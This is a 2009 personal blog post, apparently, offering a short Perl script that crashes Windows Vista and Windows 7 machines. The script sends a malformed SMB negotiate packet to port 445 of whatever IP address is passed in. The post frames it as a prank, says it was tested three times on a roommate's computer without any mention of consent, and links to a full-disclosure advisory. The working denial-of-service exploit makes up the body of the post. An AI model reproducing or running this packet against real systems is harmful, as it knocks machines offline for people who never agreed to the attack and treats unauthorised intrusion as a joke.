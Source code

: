 ```yaml
---
aliases: ["/archives/1151"]
title: "Crash your roommate's windows computer WOOO!!!"
date: "2009-09-09T02:33:14-05:00"
tags: [frew-warez, io-all, cpan, perl, security, windows]
guid: "http://blog.afoolishmanifesto.com/?p=1151"
---
```

Have you heard? You can crash Vista and Windows 7 really easily with the following super basic code! (Tested 3x on roomies computer)

    #!perl

    my $ip = shift or die 'Please pass the IP Address to crash as a parameter to this program';

    use IO::All;
    my $io = io("$ip:445");

    my $foo =
    "\x00\x00\x00\x90". # Begin SMB header: Session message
    "\xff\x53\x4d\x42". # Server Component: SMB
    "\x72\x00\x00\x00". # Negociate Protocol
    "\x00\x18\x53\xc8". # Operation 0x18 & sub 0xc853
    "\x00\x23".         # Process ID High: --> :) normal value should be "\x00\x00"
    "\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xff\xff\xff\xfe".
    "\x00\x00\x00\x00\x00\x6d\x00\x02\x50\x43\x20\x4e\x45\x54".
    "\x57\x4f\x52\x4b\x20\x50\x52\x4f\x47\x52\x41\x4d\x20\x31".
    "\x2e\x30\x00\x02\x4c\x41\x4e\x4d\x41\x4e\x31\x2e\x30\x00".
    "\x02\x57\x69\x6e\x64\x6f\x77\x73\x20\x66\x6f\x72\x20\x57".
    "\x6f\x72\x6b\x67\x72\x6f\x75\x70\x73\x20\x33\x2e\x31\x61".
    "\x00\x02\x4c\x4d\x31\x2e\x32\x58\x30\x30\x32\x00\x02\x4c".
    "\x41\x4e\x4d\x41\x4e\x32\x2e\x31\x00\x02\x4e\x54\x20\x4c".
    "\x4d\x20\x30\x2e\x31\x32\x00\x02\x53\x4d\x42\x20\x32\x2e".
    "\x30\x30\x32\x00";

    $io->print($foo);

See details [Here!](http://seclists.org/fulldisclosure/2009/Sep/0039.html)
